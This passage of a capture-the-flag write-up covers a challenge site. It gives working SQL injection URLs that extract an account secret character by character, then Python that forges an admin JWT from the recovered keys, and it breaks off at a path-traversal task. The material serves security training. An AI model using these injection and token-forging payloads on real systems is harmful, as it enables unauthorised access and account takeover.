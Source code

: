 However, getting the secret value is going to require more work.

First we can double check that our secret length is 32, just like it was for 
the normal user of the site.

```sql
https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/userinfo?user=' union SELECT 0, length(a.secret), 0, 0 FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid where a.userName = 'ReconditeIcebreaker'; --
```

It returns 32 as we expect, but now we have to figure out a way to read the value 
of the secret when all we have are numbers... lets just read the characters one at a time!

We can read a single unicode byte from the secret string by using:

```sql
substr(unicode(a.secret, i, 1))
-- where `i` is the index in the string that we want.
```

Since we know that the length of the secrets is 32, we can make 1 call for each
character of the secret key and convert from unicode back to plaintext. 
These calls would look like so:

```sql
https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/userinfo?user=' union SELECT 0, a.uid, unicode(substr(a.secret, i, 1)), 0 FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid where a.userName = 'ReconditeIcebreaker'; --
```

finally, we execute something similar task 6 to generate a get a token 
for the admin user using the new uncovered secret

```python
# pip install pyjwt
import jwt
from datetime import datetime, timedelta
claims = {
  'iat': datetime.now(),
  'exp': datetime.now() + timedelta(days=30),
  'uid': 20102,
  'sec': 'LZ50snv6JDI0RrNY0Ff4Vli8Pvbkz8ij',
}
jwt.encode(claims, 'V7CAbtL34UyeVWGuY9U0EvkXpzSNNF5A', algorithm='HS256')
```

Then our flag becomes:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE2NzAzNTQ0OTEsImV4cCI6MTY3Mjk0NjQ5MSwidWlkIjoyMDEwMiwic2VjIjoiTFo1MHNudjZKREkwUnJOWTBGZjRWbGk4UHZia3o4aWoifQ._iN83raNFYDPeOX7j1D6lWZYZJM3aM_5lszclcO4l8g
```

## Task 8

by expoiting the fetchlog endpoint path on the admin website using path traversal,
we are able to get additional files:
